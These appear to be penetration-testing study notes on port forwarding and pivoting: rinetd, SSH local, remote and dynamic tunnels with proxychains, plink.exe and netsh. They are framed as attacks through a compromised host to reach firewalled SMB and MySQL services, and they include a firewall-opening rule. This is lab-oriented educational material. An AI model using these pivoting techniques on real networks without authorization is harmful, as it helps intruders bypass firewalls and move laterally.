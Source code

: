 # Port Forwarding

## RINETD

Default configuration file:

```
cat /etc/rinetd.conf
```

bind address, bind port: listening address/port connect address/port: destination

```
# bindadress bindport connectaddress connectport
0.0.0.0 80 216.58.207.142 80
```

forword any connection to port 80 to google

```
sudo service rinetd restart
ss -antp | grep "80"
nc -nvv 10.11.0.4 80
```

# SSH Tunneling

## SSH local port forwarding

Senario:
victim1 already compromised, only accpet 8080, 22, 3389 port from outside. victim1 conenct to another subnetwork contains another target. Move tools to victim1 is not eligent and scalable, want to attack from our kali machine

```
-L local_socket:host:hostport
-L local_socket:remote_socket
             Specifies that connections to the given TCP port or Unix socket
             on the local (client) host are to be forwarded to the given host
             and port, or Unix socket, on the remote side.  This works by al‐
             locating a socket to listen to either a TCP port on the local
             side, optionally bound to the specified bind_address, or to a
             Unix socket.  Whenever a connection is made to the local port or
             socket, the connection is forwarded over the secure channel, and
             a connection is made to either host port hostport, or the Unix
             socket remote_socket, from the remote machine.

-N      Do not execute a remote command.  This is useful for just for‐
             warding ports.

```

```
In our scenario, we want to forward port 445 (Microsoft networking without NetBIOS) on our Kali
machine to port 445 on the Windows Server 2016 target. When we do this, any Microsoft file
sharing queries directed at our Kali machine will be forwarded to our Windows Server 2016 target.
This seems impossible given that the firewall is blocking traffic on TCP port 445, but this port
forward is tunneled through an SSH session to our Linux target on port 22, which is allowed
through the firewall. In summary, the request will hit our Kali machine on port 445, will be
forwarded across the SSH session, and will then be passed on to port 445 on the Windows Server
2016 target.
```

```
kali@kali:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

# SSH Remote port forwarding

Senario:

the firewall is blocking inbound TCP port 22 (SSH) connections, so we can’t
SSH into this server from our Internet-connected Kali machine

```
victim1: ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

forword all 10.11.0.4:2221 request from kali machien to 127.0.0.1:3306

on kali:

```
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
PORT STATE SERVICE VERSION
2221/tcp open mysql MySQL 5.5.5-10.1.26-MariaDB-0+deb9u1
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
```

scan local port will scan target host

# SSH Dynamic port forwarding

```
kali> ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

With the above syntax in mind, we can create a local SOCKS4 application proxy (-N -D) on our
Kali Linux machine on TCP port 8080 (127.0.0.1:8080), which will tunnel all incoming traffic to
any host in the target network, through the compromised Linux machine, which we log into as
student

We can run any network application through HTTP, SOCKS4, and SOCKS5
proxies with the help of ProxyChains

add to `/etc/proxychains.conf`

```
socks4 127.0.0.1 8080
```

```
sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

# PLINK.exe

```
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

if it is the first time, it will attmpt to cache the host key and there's a interactive step y/n

solution:

```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

# netSH

use netsh to do port forwarding on windows, it is installed on windows by default.

However, for this to work, the Windows system must have the IP Helper service running and IPv6
support must be enabled for the interface we want to use. Fortunately, both are on and enabled
by default on Windows operating systems.

```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netstat -anp TCP | find "4455" 
```

By default, firewall does not allow inbound connection to 4455, however, we have system privilege, we can change the firewall configuration

```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

before using smbclient, smb need to be configured with min protocal level = smbv2 and restart

```
/etc/samba/smb.conf
min protocol = SMB2


sudo /etc/init.d/smbd restart
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```